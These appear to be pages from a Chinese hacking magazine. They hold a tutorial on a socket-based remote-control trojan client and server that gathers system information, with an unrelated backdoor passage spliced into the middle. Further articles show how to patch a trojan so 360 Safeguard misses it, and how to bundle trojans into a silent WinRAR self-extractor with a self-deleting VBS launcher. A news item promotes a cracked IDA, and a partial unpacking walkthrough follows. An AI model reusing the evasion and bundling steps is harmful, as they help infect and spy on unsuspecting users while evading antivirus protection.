对服务器的搜索主要通过自定义函数 SearchFun() 来实现。首先在 SearchHostDlg.h 头文件中声明一个受保护的成员函数，代码如下：

```cpp
void SearchFun(ULONG IPStart, ULONG IPCount, int Port);
```

其中，第一个参数 IPStart 表示搜索服务端的起始 IP，第二个参数 IPCount 表示搜索服务端的数量，第三个参数表示服务端的端口号。

由于在 SearchFun() 函数中使用套接字的操作，因此在 SearchHostDlg.cpp 执行文件的起始位置加入如下代码：

```cpp
#include <Winsock2.h>
#pragma comment(lib, "ws2_32")
```

接下来在 SearchHostDlg.cpp 执行文件中，对 SearchFun() 函数进行编写。在 SearchFun() 函数中，首先完成的是套接字的初始化，代码如下：

```cpp
1.      WSADATA wsaData;
2.      if (WSAStartup(MAKEWORD(2,2),&wsaData) != 0)
3.      {
4.          AfxMessageBox("初始化套接字失败!");
5.          return ;
6.      }
7.      if ( LOBYTE( wsaData.wVersion ) != 2 ||
8.             HIBYTE( wsaData.wVersion ) != 2 )
9.      {
10.         AfxMessageBox("套接字版本不正确!");
11.         WSACleanup();
12.         return ;
13.     }
```

其中，第 1-6 行调用了 WSAStartup() 函数初始化 WS2_32.DLL 文件，其第一个参数表示 Windows 套接字支持的最高版本号，MAKEWORD(2,2) 表示版本号为 2.2；第二个参数为 WSADATA 结构的指针，该结构用来接收使用 Windows 套接字的细节。

第 7-13 行对使用的 Windows 套接字的版本号进行判断，如果版本号不是 2.2，则跳出提示对话框并返回程序。LOBYTE 和 HIBYTE 是两个宏，分别用来得到指定字（WORD）的低字节和高字节部分；WSACleanup() 函数的作用是终止使用 WS2_32.DLL 文件。

接下来仍然使用以下代码得到客户端主界面中用于显示服务端的树状视图控件的参考。

```cpp
CMainFrame* mframe = (CMainFrame*)AfxGetApp()->GetMainWnd();
CTreeCtrl& tree = mframe->m_pTreeHost->GetTreeCtrl();
```

然后，使用 for 语句循环搜索服务端，代码如下：

```cpp
for(int i=0; i<(int)IPCount; i++)
{
    // ... 循环体内容 ...
}
```

其中，IPCount 是 SearchFun() 函数的参数，表示搜索服务端的数量。在 for 循环语句中，首先创建套接字，代码如下：

```cpp
sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
```

其中，变量 sClient 的类型是 SOCKET，socket() 函数的作用是创建套接字。socket() 函数的第一个参数表示地址族，AF_INET 表示创建的是 TCP 或者 UDP 套接字；第二个参数表示新创建的套接字的类型，SOCK_STREAM 表示套接字的类型是有序的、可靠的以及基于连接的，使用 TCP 协议时会使用该类型的套接字；第三个参数表示套接字使用的协议，IPPROTO_TCP 表示新创建的套接字使用 TCP/IP 协议。

在创建完套接字之后，利用该套接字去连接处于监听状态的服务端的套接字，代码如下：

```cpp
1.      SOCKADDR_IN addrServer;
2.      addrServer.sin_family = AF_INET;
3.      addrServer.sin_port = htons(Port);
4.      add = IPStart + i;
5.      addrServer.sin_addr.S_un.S_addr = add;
6.      connect(sClient, (SOCKADDR*)&addrServer, sizeof(addrServer));
```

connect() 函数会根据 SOCKADDR_IN 结构的成员变量去连接服务端的套接字，因此第 1-5 行中为 SOCKADDR_IN 结构的成员函数进行赋值。第 2 行中的 sin_family 表示地址族。第 3 行中的 sin_port 表示连接服务端的端口号，Port 是 SearchFun() 函数的第三个参数，实际上就是用户在搜索服务端的对话框中输入的端口号。

第 5 行中的 sin_addr.S_un.S_addr 是服务端的 IP 地址。第 6 行中，connect() 函数的作用是连接套接字，该函数的第一个参数表示使用的套接字的描述符，sClient 就是前面新生成的套接字；第二个参数表示要连接的套接字名称，该名称是 SOCKADDR 结构的指针，套接字根据该结构的 IP 地址以及端口号去连接服务端的套接字；第三个参数表示该名称的大小。

接下来要在客户端主界面中显示服务端的树状视图控件中用搜索到服务端的 IP 地址表示服务端，如图 2 所示。在 SearchFun() 函数中，有如下代码：

```cpp
1. in_addr ina;
2. memset(&ina, 0, sizeof(ina));
3. ina.S_un.S_addr = add;
4. strcpy(address, inet_ntoa(ina));
5. item2 = tree.InsertItem(address, 1, 1, item);
```

其中，第 1 行中的 in_addr 包含了 IP 地址的三种表示形式；第 2 行对 ina 进行初始化；第 3 行将 IP 地址保存为无符号长整型类型；第 4 行中的 inet_ntoa() 函数的作用是将 in_addr 结构（无符号长整型形式的 IP 地址）变为点分型的 IP 地址（比如 127.0.0.1），该函数与前面提到的 inet_addr() 函数的过程相反。

第 5 行中通过 tree 调用 CTreeCtrl 类的成员函数 InsertItem()，前三个参数前面已经提到，第四个参数表示插入新项的上一级项的句柄，item 是插入的“搜索到的服务器”项的句柄。第 5 行代码的含义是在“搜索到的服务器”项之下插入搜索到的服务端 IP 地址，如图 2 所示。

接下来是对服务端发送过来的数据进行接收。前面已经提到，在客户端界面中要显示服务端的一些信息，比如服务端的计算机名、用户名、操作系统、处理器等。因此，需要自定义一个结构来包含这些信息，在 SearchHostDlg.h 中自定义一个名为 SYSTEMINIT 的结构，代码如下：

```cpp
typedef struct
{
    char computer[32];
    char user[32];
    char os[256];
    char processor[256];
    char mem[128];
    char disk[128];
}SYSTEMINIT;
```

其中，computer 表示计算机名；user 表示用户名；os 表示操作系统；processor 表示处理器；mem 表示内存信息；disk 表示硬盘信息。

之后，在 SearchHostDlg.cpp 执行文件中的 SearchFun() 函数中，有如下代码：

```cpp
SYSTEMINIT si;
recv(sClient, (char*)&si, sizeof(si), 0);
```

***

**[补充片段：进程通信相关内容]**

建管道，写一个双管道后门，这在后门编程中有介绍，如图 10 所示 (将作者的意思进行了整合)。但是在 Windows 中真正的进程通信机制是依靠共享存储器方式建立起来的，它是让各个进程间通过使用共同的数据结构来实现通信，在 Windows 中主要体现在内存映射文件机制上。

内存映射文件机制是多个进程共享数据的一种较高性能的有效方式，Windows 中的 RPC、COM、OLE、DDE、窗口消息、剪贴板、管道、Socket 等都是使用内存映射文件机制实现的。这种底层的编程，我们必须精通操作系统原理、数据结构及 C 语言才可以写出来，我没有那实力，所以不能给大家提供源码，不过大家可以去看一下 Linux 内核的书，从中吸取一些“营养”！

好了，文章就到这里，错误之处希望大家多多帮助，小弟在技术这块刚刚穿上开裆裤！

[文章中所涉及的相关代码及工具都已经收录在本期光盘中]

> **编辑点评：** 虽然枯燥了点，但却详细的解释了操作系统进程及线程的各个方面，以便于大家了解系统是如何运作的。为什么程序存在优先级别呢？看完这篇文章应该就知道了吧？

recv() 函数的作用是接收来自服务端的数据。该函数第一个参数表示套接字的描述符，sClient 是用于连接服务端的套接字；第二个参数表示用于接收数据的缓冲区的指针，si 是 SYSTEMINIT 结构的变量，从服务端接收到的数据都保存在 si 中；第三个参数表示缓冲区的大小；第四个参数指定了接收数据的方式，0 表示没有特殊行为。

如果接收数据成功，则将接收到服务端信息插入到树状视图控件中。

```cpp
tree.InsertItem(si.computer, 2, 2, item2);
tree.InsertItem(si.user, 3, 3, item2);
tree.InsertItem(si.os, 4, 4, item2);
tree.InsertItem(si.processor, 5, 5, item2);
tree.InsertItem(si.mem, 6, 6, item2);
tree.InsertItem(si.disk, 7, 7, item2);
```

以上代码通过 tree 调用 CTreeCtrl 类的成员函数 InsertItem()。需要注意的是第四个参数，item2 表示把服务端的信息插入到对应的服务端 IP 地址项下面，如图 2 所示。

## 4、SearchFun() 函数的调用

在 OnSearch() 函数中调用 SearchFun() 函数，代码如下：

```cpp
SearchFun(lStart, lSub, atoi(m_Port));
```

第一个参数表示要搜索的服务端的起始 IP，第二个参数表示搜索服务端的数量；第三个参数表示连接服务端的端口号，atoi() 函数的作用是把 CString 类型的变量转换为 int 类型的变量。

以上就完成了客户端的编写，接下来我们对服务端进行编写。

# 三、阻塞模式服务端

在创建服务端时，选择的工程类型是“Win32 Application”。对于这种类型的工程，程序运行起来是没有窗口的，符合远程控制软件服务端的要求。工程名称设置为“BlockServer”，之后选择“A Simple Win32 application”选项，创建一个简单的 Win32 应用程序。

## （一）套接字的初始化

Win32 应用程序的入口函数是 WinMain()，因此在 WinMain() 函数中，首先完成套接字的初始化，初始化代码与服务端初始化套接字代码相同，仍需在 BlockServer.cpp 执行文件的起始位置加入，代码如下：

```cpp
#include <Winsock2.h>
#pragma comment(lib, "ws2_32")
```

## （二）套接字的创建

在服务端中创建一个名为 sServer 的套接字，其代码与客户端使用的代码相同。

## （三）套接字的绑定

在服务端中，使用如下代码对套接字进行绑定。

```cpp
1. SOCKADDR_IN addServer;
2. addServer.sin_family = AF_INET;
3. addServer.sin_port = htons(12345);
4. addServer.sin_addr.S_un.S_addr = INADDR_ANY;
5. bind(sServer, (SOCKADDR*)&addServer, sizeof(addServer));
```

其中，第 1-4 行对 SOCKADDR_IN 结构的成员变量进行赋值，其中 sin_family 表示地址族；sin_port 表示端口号，12345 对应在客户端中设置的套接字需要连接服务端的端口。如果在客户端中将端口号修改成其它值，则对应的第 3 行中的端口号也需修改。第四行中的 sin_addr.S_un.S_addr 表示 IP 地址，INADDR_ANY 表示可以使用任意网络接口。第 5 行中使用 bind() 函数将套接字绑定到一个已知地址上，第一个参数表示要绑定的套接字的描述符；第二个参数表示 SOCKADDR 结构的指针，第三个参数表示 SOCKADDR 结构的大小。

## （四）套接字的监听

绑定套接字之后就是要对套接字进行监听，在程序中有如下代码：

```cpp
listen(sServer, 1);
```

listen() 函数将指定的套接字设置为监听状态。第一个参数是指定套接字的描述符；第二个参数表示等待连接队列的最大长度，1 表示等待连接的最大数值是 1。如果有 2 个客户端同时向服务端发送请求，那么第 1 个连接会被放在等待处理的队列中，而另外一个连接会造成错误。

## （五）接收客户端的连接请求

当服务端的套接字处于监听状态时，如果有客户端通过套接字连接服务端，则服务端接收该连接。

```cpp
SOCKET sAccept;
sAccept = accept(sServer, NULL, NULL);
```

accept() 函数的第一个参数表示设置为监听状态的套接字的描述符；第二个参数表示请求连接的客户端地址，因为服务端中没有用到客户端的地址，因此该参数设置为 NULL；第三个参数表示客户端地址的长度。accept() 函数的返回值是一个新建的套接字的句柄，服务端通过该新建的套接字与客户端进行数据传输。

## （六）服务端信息的获取

服务端接收了客户端的连接请求后，就可以向客户端发送数据了。前面我们已经提到，服务端向客户端发送本机的一些信息，例如计算机名、用户名、内存信息和磁盘信息等，那么如何获取这些信息呢？

### 1、计算机名的获取

在服务端中通过自定义函数 GetBlockSystemInfo() 函数获取本机（服务端）的信息。在 GetBlockSystemInfo() 函数中，首先获取本机的计算机名，代码如下：

```cpp
1. GetComputerName(computerbuf, &computersize);
2. strcat(sysinfo.computer, "计算机名: ");
3. strcat(sysinfo.computer, computerbuf);
```

其中，第 1 行中 GetComputerName() 函数的第一个参数是一个缓冲区的指针，该缓冲区用于保存本机的计算机名；第二个参数表示该缓冲区的大小。第 2-3 行对 sysinfo 的成员变量 computer 进行赋值，即得到的计算机名保存在成员变量 computer 中。

### 2、用户名的获取

```cpp
1. GetUserName(userbuf, &usersize);
2. strcat(sysinfo.user, "用户名: ");
3. strcat(sysinfo.user, userbuf);
```

GetUserName() 函数的第一个参数是一个缓冲区的指针，该缓冲区用于保存本机的用户名；第二个参数表示该缓冲区的大小。第 2-3 行将得到的用户名保存在 sysinfo 的成员变量 user 中。

### 3、操作系统版本的获取

首先得到操作系统的信息，代码如下：

```cpp
1. OSVERSIONINFO osvi;
2. osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
3. GetVersionEx(&osvi);
```

其中，第 1 行声明了 OSVERSIONINFO 结构的对象 osvi，OSVERSIONINFO 结构包含了操作系统版本的信息。第 2 行对成员变量 dwOSVersionInfoSize 进行赋值，dwOSVersionInfoSize 表示 OSVERSIONINFO 结构的大小。第 3 行调用 GetVersionEx() 函数获取操作系统版本信息，并将信息保存在 osvi 中。

接下来对获取的操作系统版本信息进行判断，代码如下：

```c
switch (osvi.dwPlatformId)
{
    case VER_PLATFORM_WIN32_NT:
    ...
    case VER_PLATFORM_WIN32_Windows:
    ...
}
```

osvi 的成员变量 dwPlatformId 表示操作系统的平台，VER_PLATFORM_WIN32_Windows 表示操作系统是 Win95 或 Win98；VER_PLATFORM_WIN32_NT 表示 WinNT。如果 dwPlatformId 的值是 VER_PLATFORM_WIN32_NT，则继续判断操作系统，相关代码如下：

```c
1. if ( osvi.dwMajorVersion <= 4 )
2. strcat(sysinfo.os, "Microsoft Windows NT ");
3. if ( osvi.dwMajorVersion == 5 && osvi.dwMinorVersion == 0 )
4. strcat(sysinfo.os, "Microsoft Windows 2000 ");
5. if ( osvi.dwMajorVersion == 5 && osvi.dwMinorVersion == 1 )
6. strcat(sysinfo.os, "Microsoft Windows XP ");
7. if ( osvi.dwMajorVersion == 5 && osvi.dwMinorVersion == 2 )
8. strcat(sysinfo.os, "Microsoft Windows Server 2003 ");
```

其中，第 1-2 行判断操作系统是否是 Windows NT。osvi 的成员变量 dwMajorVersion 表示操作系统的主版本，如果操作系统是 Windows NT 3.51 版本，则 dwMajorVersion 的值是 3；如果操作系统是 Windows NT 4.0 版本，则 dwMajorVersion 的值是 4。

第 3-4 行判断操作系统是否是 Windows 2000；第 5-6 行判断操作系统是否是 Windows XP；第 7-8 行判断操作系统是否是 Windows Server 2003。

接下来通过查询注册表确定 Windows XP 的版本，代码如下：

```c
1. RegOpenKeyEx( HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Control\\ProductOptions", 0, KEY_QUERY_VALUE, &hKey );
2. RegQueryValueEx( hKey, "ProductType", NULL, NULL, (LPBYTE)szProductType, &dwBufLen);
3. if ( lstrcmpi( "WINNT", szProductType) == 0 )
4. strcat(sysinfo.os, "Professional, " );
5. if ( lstrcmpi( "LANMANNT", szProductType) == 0 )
6. strcat(sysinfo.os, "Server, " );
7. if ( lstrcmpi( "SERVERNT", szProductType) == 0 )
8. strcat(sysinfo.os, "Advanced Server, " );
```

其中，第 1 行调用 RegOpenKeyEx() 函数打开注册表指定项。该函数的第一个参数是主键句柄；第二个参数表示需要打开的子项；第三个参数是保留参数，必须设置为 0；第四个参数表示对打开子键的访问权限，KEY_QUERY_VALUE 表示允许查询子键的数据；第五个参数表示打开子键句柄的指针。

第 1 行的作用是得到指定子项的句柄，接下来在第 2 行中利用该子键的句柄与 RegQueryValueEx() 函数得到指定子键的值。RegQueryValueEx() 函数的第一个参数表示打开子项的句柄；第二个参数表示要查询的子项，ProductType 表示要查询 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions\ProductType 项的值；第三个参数是保留参数，必须设置为 0；第四个表示该子键值的类型，本程序不需要子键值的类型，因此该参数设置为 0；第五个参数表示保存子键值的缓冲区指针；第六个参数表示缓冲区大小的指针。

第 2 行的作用是将查询到指定子键的值保存在 szProductType 中，第 3-8 行对 szProductType 的值进行判断。

第 3 行中调用 lstrcmpi() 函数判断 szProductType 的值是否是“WINNT”，如果是“WINNT”，则函数返回值是 0，那么说明此时服务端使用的操作系统版本是专业版；如果 szProductType 的值是“LANMANNT”，说明服务端使用的操作系统版本是服务器版；如果 szProductType 的值是“SERVERNT”，说明服务端使用的操作系统版本是高级服务器版。最后，通过 osvi 的成员变量 szCSDVersion 得到操作系统安装的最新服务包（Service Pack）。

通过以上代码，就可以在客户端界面中显示如“操作系统：Microsoft Windows XP Professional, Service Pack 2 (Build 2600)”的服务端操作系统信息。

如果 dwPlatformId 的值是 VER_PLATFORM_WIN32_Windows，则继续通过 osvi 的成员变量 dwMajorVersion 和 dwMinorVersion 判断操作系统的版本。Windows 95 对应的是 4.0 版；Windows 98 对应的是 4.10 版；Windows ME 对应的是 4.90 版本。

### 4、磁盘信息的获取

程序通过 GetDriveType() 函数判断磁盘的类型，之后通过 GetDiskFreeSpaceEx() 函数查询磁盘之间的信息。GetDiskFreeSpaceEx() 函数的第一个参数表示需要查询的磁盘的路径；第二个参数表示磁盘中可使用的剩余字节数；第三个参数表示磁盘总共可供用户使用的字节数；第四个参数表示磁盘中总共剩余的字节数。

```c
GetDiskFreeSpaceEx (driver, (PULARGE_INTEGER) &freebyte, (PULARGE_INTEGER) &ulltotalspace, (PULARGE_INTEGER) &ullfreespace);
```

通过 GetDiskFreeSpaceEx() 函数的第三个和第四个参数得到服务端磁盘的大小和磁盘剩余空间大小，代码如下：

```c
totalspace += ulltotalspace;
freespace += ullfreespace;
```

最后通过换算，将磁盘大小和剩余空间大小的单位转化成 G，代码如下：

```c
dfreespace = (ULONGLONG) freespace / (1024 * 1024 * 1024);
dtotalspace = (ULONGLONG) totalspace / (1024 * 1024 * 1024);
```

### 5、处理器信息的获取

程序通过查询注册表获取处理器信息：

```c
RegOpenKeyEx( HKEY_LOCAL_MACHINE, "HARDWARE\\DESCRIPTION\\System\\CentralProcessor\\0", 0, KEY_QUERY_VALUE, &hKey );
RegQueryValueEx( hKey, "VendorIdentifier", NULL, NULL, (LPBYTE)szcpuinfo, &dwBufLen);
RegQueryValueEx( hKey, "~MHz", NULL, NULL, (LPBYTE)&f, &dwBufLen);
```

RegOpenKeyEx() 函数与 RegQueryValueEx() 函数的用法我们前面已经讲过，不再赘述。

### 6、内存信息的获取

程序通过 GlobalMemoryStatus() 函数获取内存信息，代码如下：

```c
GlobalMemoryStatus(&ms);
```

其中，ms 是 MEMORYSTATUS 结构的对象，该结构包含了物理内存和虚拟内存的当前状态，这些状态包括物理内存的总量 (dwTotalPhys)、可用物理内存总量 (dwMemoryLoad) 等。

## （七）GetBlockSystemInfo() 函数的调用

在服务端窗口函数 WinMain() 中调用 GetBlockSystemInfo() 函数，代码如下：

```cpp
SYSTEMINIT system;
GetBlockSystemInfo(system);
```

GetBlockSystemInfo() 函数获取的服务端信息都保存在 system 中，最后使用 send() 函数将这些信息发给客户端：

```cpp
send(sAccept, (char*)&system, sizeof(system), 0);
```

send() 函数的第一个参数表示套接字的描述符，sAccept 是与客户端进行数据传输的套接字；第二个参数表示要发送数据的缓冲区指针；第三个参数表示发送缓冲区的大小；第四个参数指定了发送数据的方式，0 表示没有特殊行为。

以上就完成了套接字阻塞模式下，远程控制软件客户端与服务端雏形的编写。如图 4 所示，概括了客户端与服务端在套接字中的操作。

本文只是介绍了客户端显示服务端信息这一功能，其它的如显示文件信息、上传文件、下载文件等功能的原理与显示服务端信息的原理类似。

## 四、阻塞模式套接字的优点与不足

使用阻塞模式的套接字开发网络程序比较简单，容易实现。从前面的介绍中我们也能看出，服务端在接受了客户端连接之后，马上将本机的信息发送给客户端，而客户端在连接服务端之后，马上调用 recv() 函数等待服务端发送数据。因此，当希望能够立即发送和接收数据，并且处理的套接字数量比较少时，可以考虑使用阻塞模式的套接字。

但是，如果由于种种原因，某一服务端不能马上发送信息数据，或者服务端发送的信息数据不能马上到达客户端，则客户端的 recv() 函数一直处于阻塞状态，客户端无法接受来自其它服务端的信息数据。如何解决以上这种情况呢？请关注《远程控制软件编程之套接字非阻塞模式》。

本文代码运行环境：Windows XP SP2 + VC++ 6.0。（文章中所涉及的相关代码及工具都已经收录在本期光盘）

> 编辑点评：手把手一步一步的完成界面及代码的编写，相信你也一定学会了吧？还不赶紧试一下，让自己有点成就感！

---

### 10086 免杀首语

近来都不知道是什么问题，电脑老是被雷击，连续 2 个月被劈中！结果一次修了半个月，一次修了快一个月，郁闷了我两个月，导致最后的结果是病了一个月。
本来平时就没什么娱乐，就是用电脑玩点技术，看点电影，聊聊天什么的，结果一下子失去了这些，发现没有了电脑，没有了网络，好像生活也失去了点什么。
于是，我猛然醒悟，原来网络真的已经融入到生活里面去了。以前天天接触到网络倒不怎么觉得，原来真实的面对突然而来的事情，就变得那么颓废。不过颓废过去，始终还是面对真实的生活，所以颓废过去就应该重新振作起来，给人生活增加一点色彩。

## 躲过 360 安全卫士的隐藏启动查杀
作者：蜀蜀布衣

从本文你可以学习到：
- 如何过 360 的隐藏启动查杀

如果说杀毒软件是正规军的话，那么 360 安全卫士就是游击队。正是由于这些游击队，常常不按常理进行出牌，弄得我们的木马程序无处藏身。比如最近 360 安全卫士就加入了一个特性，只要是启动项中的文件属性被设置为隐藏，它就会提示用户该文件可疑，如图 1。就这样，我的不少木马服务端都英勇就义，哎……

其实我们仔细想想也是，正规的驱动文件怎么会进行隐藏呢？所以为了避免这种情况的发现，以后在配置服务端程序的时候，不要选择“隐藏”属性就可以了。

不过有的木马程序并没有属性的设置，因此就需要对服务端文件进行修改才可以。首先用汇编工具 OllyICE 载入服务端后，在窗口中按鼠标右键，依次选择菜单中的“查看” - “所有模块间的调用”，如图 2。

由于服务端文件的隐藏设置，要用到 SetFileAttributesA 函数。因此在新的窗口列表中，找到该函数后直接双击鼠标或回车操作，这时就可以看到函数，代码如下：函数对应的汇编代码。我们可以看到一句“push 6”的代码，它的意思就是设置对应文件的属性为“隐藏”，如图3。

现在双击打开这句代码，在弹出的汇编窗口中输入“push 0”即可，也就是服务端文件不设置任何的属性。

服务端文件修改完成以后，选中刚刚修改的代码信息，单击右键菜单中的“复制到可执行文件”命令，接着在它的子菜单中选择“选择”命令。然后在弹出窗口中单击右键的“保存文件”命令，就可以为修改的程序进行保存操作了。这样，360安全卫士就无法扫描出系统中的服务端文件了。

## 编辑点评：

有消息说360的装机量已经达到2亿用户，所以过360就成了首当其冲的一个坎。如果过不了360，那么你想想再过其它的杀软还有用吗？不过有些朋友跟我说，其实360的查杀不咋滴，那么是不是代表过360就很容易呢？大家还有什么样的想法，记得给编辑部投稿哟！

## 从本文你可以学习到：

- Winrar 捆绑新方法

大家都知道，网上发布的那些捆绑器总是在公布不久后就被杀毒软件查杀了，这使得我们这些小菜很难再找到一款合适的捆绑器。不过大家不用着急，下面我将介绍一款永不被查杀的捆绑器，它就是——Winrar（小菜：winrar？这不是压缩软件么？以为俺是小菜就不懂了，竟敢忽悠我们说是捆绑器，兄弟们，上！扁他……）！

stop！stop！stop！大家先不要打我，且听我解释……

正如大家所知道的那样，Winrar的确是一款家喻户晓、装机必备的压缩软件，不过我们可以利用它的自解压功能使它成为捆绑器。

整体思路就是把需要捆绑在一起的几个文件用winrar做成一个自解压包，当运行这个自解压包时，它就会把那几个文件解压到一个路径里，并调用vbs脚本来运行它们。

假如现在需要把2个木马(j.exe和x.exe)捆绑在一起，那么就先来写一个VBS脚本文件，代码如下：

```vbscript
dim mm1,mm2
mm1="C:\Program Files\Internet Explorer\j.exe"
mm2="C:\Program Files\Internet Explorer\x.exe"
set wshshell=createobject("wscript.shell")
set fso=createobject("scripting.filesystemobject")
set oexe=wshshell.exec(mm1)
Set oexe=wshshell.exec(mm2)
set f1=fso.getfile("C:\Program Files\Internet Explorer\run.vbs")
f1.delete
```

将以上代码用记事本另存为run.vbs文件，然后把这个VBS脚本和那2个木马放在一起，用鼠标全部选定后右击选择“添加到压缩文件”，如图1。

在“压缩选项”中的“创建自解压格式文件”前面打上勾，如图2。

然后切换到“高级”选项页，点击那个“自解压选项”弹出“高级自解压选项”，如图3。

在解压路径里写上“C:\Program Files\Internet Explorer”，再在下面的“解压后运行”中写上“run.vbs”。接着切换到“模式”选项页，在“安静模式”中选择“全部隐藏”，下面的“覆盖模式”中选择“覆盖所有文件”，如图 4。

再切换到“文本和图标”选项页，在“从文件加载自解压文件图标”旁点击“浏览”，选择你喜欢的图标，如图 5。

最后“确定”就行了，生成的自解压文件就是捆绑后的文件了，如图 6。

怎么样？挺不错的吧！要捆绑多少个文件都可以，只需在代码处适当地加上几行即可。不过要注意一下，自解压的路径可以随意改，但是一定要与 VBS 脚本代码里的一致。

看到这里大家应该都明白了吧？所谓的“永不被查杀的捆绑器”只不过是巧妙地运用了 winrar 和 vbs 脚本而已。其实大家只要在平时多开动一下脑筋，就一定会有意外发现的！

**编辑点评：** 其实现在很多人下载东西基本很少查杀后再用，所以经过本文所述的设置，相信中招的还是会有的。当然，前提是这个马是免杀的，如果没做免杀处理，我相信杀软还是可以查杀出来的。

## Cracker 10086

### 86 的破言破语

最近看到的一些报道，最多的就是台湾的水灾了。看来台风莫拉克对台湾造成的影响也实在太大了，希望灾区的人民能够尽快重建家园。另外最近经常看到股市是一时涨，一时跌，一些股民的心理起伏也是非常大的，所以股票风险还是比较大，入市还是需要很谨慎，很谨慎。

快九月了，有些地方也该是入秋的季节了，天气也开始凉爽起来。一个很好的季节很快就要来临了，其实我是非常喜欢秋天的，只是在家这边，我也只能在12月份才能感觉到秋季的气息，所以很是羡慕北方的朋友们。

最近了解到一些朋友到北京去了，有去找工作的，有去旅游的，还有的就是去上班的。但不管怎么样，北京经过奥运的洗礼，确实是比原来美化了不少，只是交通方面还确实需要努力。因为车辆多了，塞车就成了很平常的事情，如果住的地方是靠近地铁站的话，那确实是一个不错的选择，又或者是直接住在公司的对面。

## 每月破新闻

### 1、《UpK 论坛 2008 精华集》

摘引部分原话：
> “《UpK 论坛 2008 精华集》收录了 UpK 软件安全社区 20080101-20081231 期间的精华内容；收录的所有文章仅为学习研究，任何人不得将其用于非法，否则一切后果自负；收录的帖子和图片相关版权归各作者等版权所有人拥有。”

UpK 论坛也开始像看雪论坛一样开始每年搞一次精华集，虽然 UpK 论坛是后来居上的论坛，但是人气一点也不比看雪论坛差。UpK 论坛也经常有很多高手在里面讨论各种话题，有技术方面的，也有工作、生活方面的，对于初学者是一个好的去处。

相关连接：http://www.unpack.cn/viewthread.php?tid=36799

### 2、IDA 5.5.0.952 非完全破解版

摘引部分原话：
> “是在 Demo 版的基础上进行了修改：去除了 Demo 显示信息窗口；去除了试用过期限制；可分解自己；去除了 Demo 版的 30 分钟限制。但是没有实现保存和载入的数据，不是完全的破解，因为 Demo 版本身不包含保存的代码，感觉有作用，但不大，需要的朋友可以先安装完 IDA Demo 5.5，然后将破解中的文件覆盖安装路径下的对应文件即可。”

相关连接：http://download.csdn.net/source/1576426

### 3、给 ollydbg 自动添加注释的插件

引用作者原话：
> “这是一个 ollydbg 插件，很多牛人看汇编像看 C 语言一样，本人没那个水平，就想 od 自动解释一些汇编语句，所以编写了此插件。本插件只跟踪 F8、F7 按键，开启服务后，按 F8、F7 就自动给当前语句添加注释。刚编写完，很多语句解释不当，请大家指点。特征：
> (1) 整个插件是建立在词法解析与语法分析的基础上的，所以有着很大的局限性；
> (2) 有些语法是没有解析的，没有解析的语法是分析不出来，或分析出来也是错误的；
> (3) 最主要的有两种情况：
> 第一种：在 OD 选项中用了“反调试”中“显示符号地址”，我没有做语法处理的，请去掉选择。
> 第二种：在 OD 选项中用了“反调试”中“显示本址模块名称”，我没有做语法处理的，请去掉选择。”

(以上新闻所提到的 CHM、软件、插件已收录在本期光盘中)

## 手脱 eXPressor 并寻找失落的 IAT 函数
December

### 从本文你可以学到：
- 1、手动脱壳的常规方法
- 2、手动查找 IAT 函数

大家好，最近我发现了一个问题，原来技术不进步是会退步的！这不，一段时间没玩脱壳了，发现连简单的壳居然也脱得非常吃力。虽然如此，但是最后还是以胜利终结，因为涉及手工寻找 IAT，记得以前没和大家探讨过，所以这次借本期杂志给大家介绍一下 eXPressor 壳，和大家分享我的脱壳过程。不多说了，马上开干！

拿出我们的查壳工具 PEiD 对程序扫描一下，结果如图 1。

在 1 处可以看到扫描的结果，显示为“eXPressor V1.4.5. 1 -> CGSoftLabs”；在 2 处可以看到区段名为“.ex_cod”。有一部分的加壳工具(一般是加密壳)加壳后会增加/减少或者改变区段名，虽然通过区段名并不能直接看出是什么壳，因为这个区段名是可以自定义的，但是留意一下区段名还是可以猜猜是什么壳。记得某大牛曾经说过：“猜，也是一种艺术”。

既然知道了是 eXPressor 加的壳，下面就把它丢进 OD 里面看看吧。不过在动手前先把“调试选项”的“异常”设置一下，如图 2。

使用 OD 载入目标程序后会停在壳的入口处，如图 3。

从图 3 中可以看到 004B9891 地址处的“eXPr-v.1.4.”，说明了壳名称和版本信息。按 F8 往下看代码：

```assembly
004B98B9  |.  890D 0C904B00 mov dword ptr ds:[4B900C],ecx ; ecx=400000 MZ 头
004B98BF  |.  833D 10904B00 cmp dword ptr ds:[4B9010],0
004B98C6  |.  74 16         je short 004B98DE ; 相等就跳
...
004B9906  |> \6A 04         push 4 ; /Protect = PAGE_READWRITE
004B9908  |.  68 00100000   push 1000 ; /AllocationType = MEM_COMMIT
004B990D  |.  68 04010000   push 104 ; Size = 104 (260.)
004B9912  |.  6A 00         push 0 ; Address = NULL
004B9914  |.  FF15 C4904B00 call dword ptr ds:[<&KERNEL32.VirtualAlloc>] ; \VirtualAlloc /// 申请 260 个字节内存空间
```

```assembly
004B991D  |.  68 04010000   push 104 ; /BufSize = 104 (260.)
004B9922  |.  FF75 EC       push dword ptr ss:[ebp-14] ; |PathBuffer
004B9925  |.  FF75 08       push dword ptr ss:[ebp+8] ; |hModule
004B9928  |.  FF15 DC904B00 call dword ptr ds:[<&KERNEL32.GetModuleFileNameA>] ; \GetModuleFileNameA
004B992E  |.  8B4D EC       mov ecx,dword ptr ss:[ebp-14]
004B9931  |.  8D4401 FF     lea eax,dword ptr ds:[ecx+eax-1]
004B9935  |.  8945 AC       mov dword ptr ss:[ebp-54],eax
004B9938  |>  8B45 AC       /mov eax,dword ptr ss:[ebp-54]
004B993B  |.  0FBE00        |movsx eax,byte ptr ds:[eax]
004B993E  |.  83F8 5C       |cmp eax,5C
004B9941  |.  74 09         |je short 004B994C
004B9943  |.  8B45 AC       |mov eax,dword ptr ss:[ebp-54]
004B9946  |.  48            |dec eax
004B9947  |.  8945 AC       |mov dword ptr ss:[ebp-54],eax
004B994A  |.^ EB EC         \jmp short 004B9938
```

这一段代码主要是确认 MZ 头，申请 260 个字节内存空间，然后再获取自身路径。

```assembly
004B99B3 |. 894D F0 mov dword ptr ss:[ebp-10],ecx ; PE
004B99B6 |. 8B45 F0 mov eax,dword ptr ss:[ebp-10]
004B99B9 |. 05 F8000000 add eax,0F8
004B99BE |. 8945 C4 mov dword ptr ss:[ebp-3C],eax ; .data 区段名
004B99C1 |. A1 08904B00 mov eax,dword ptr ds:[4B9008]
...
